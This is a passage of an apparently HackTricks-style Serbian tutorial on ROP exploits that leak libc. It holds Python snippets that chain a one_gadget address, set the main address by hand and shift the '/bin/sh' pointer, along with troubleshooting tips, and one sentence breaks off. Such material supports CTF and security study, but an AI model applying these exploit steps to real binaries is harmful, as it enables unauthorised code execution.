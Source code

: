 ```python
ONE_GADGET = libc.address + 0x4526a
rop2 = base + p64(ONE_GADGET) + "\x00"*100
```

## EXPLOIT FAJL

Ovde možete pronaći šablon za iskorišćavanje ove ranjivosti:

{% content-ref url="rop-leaking-libc-template.md" %}
[rop-leaking-libc-template.md](rop-leaking-libc-template.md)
{% endcontent-ref %}

## Česti problemi

### MAIN\_PLT = elf.symbols\['main'] nije pronađen

Ako simbol "main" ne postoji. Tada možete pronaći gde se nalazi glavni kod:

```python
objdump -d vuln_binary | grep "\.text"
Disassembly of section .text:
0000000000401080 <.text>:
```

i postavite adresu ručno:

```python
MAIN_PLT = 0x401080
```

### Puts nije pronađen

Ako binarni fajl ne koristi Puts, trebalo bi da proverite da li koristi

### `sh: 1: %s%s%s%s%s%s%s%s: not found`

Ako pronađete ovu **grešku** nakon što ste kreirali **sve** eksploate: `sh: 1: %s%s%s%s%s%s%s%s: not found`

Pokušajte da **oduzmete 64 bajta od adrese "/bin/sh"**:

```python
BINSH = next(libc.search("/bin/sh")) - 64
```

<details><summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
